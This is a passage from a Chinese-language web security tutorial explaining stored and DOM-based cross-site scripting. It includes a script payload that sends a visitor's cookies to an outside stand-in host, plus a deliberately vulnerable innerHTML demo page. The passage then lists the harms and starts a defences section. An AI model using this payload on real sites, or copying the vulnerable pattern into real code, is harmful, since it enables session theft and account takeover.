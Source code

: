 例如有一个**论坛**网站，**攻击者**可以在上面**发布**以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

恶意脚本会被存储到数据库中，之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

**其他用户**浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

#### 3、DOM-Based型

DOM型XSS是基于DOM文档对象模型的。对于浏览器来说，DOM文档就是一份XML文档，当有了这个标准的技术之后，通过JavaScript就可以轻松的访问DOM。

用户请求一个经过专门设计的URL，它由攻击者提供，而且其中包含XSS代码。**服务器的响应不会以任何形式包含攻击者的脚本**，当用户的**浏览器处理这个响应时**，**DOM对象就会处理XSS代码**，导致存在XSS漏洞。

恶意脚本是在其执行了非恶意脚本后，被注入到文档里的。

```html
<html>
    <head>
        <title>DOM Based XSS Demo</title>
        <script>
        function xsstest()
        {
        var str = document.getElementById("input").value;
        document.getElementById("output").innerHTML = "<img
        src='"+str+"'></img>";
        }
        </script>
    </head>
    <body>
    <div id="output"></div>
    <input type="text" id="input" size=50 value="" />
    <input type="button" value="submit" onclick="xsstest()" />
    </body>
</html>
```

在这段代码中，submit按钮的onclick事件调用了xsstest()函数。而在xsstest()中，修改了页面的DOM节点，通过innerHTML把一段用户数据当作HTML写入到页面中，造成了DOM Based XSS。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly
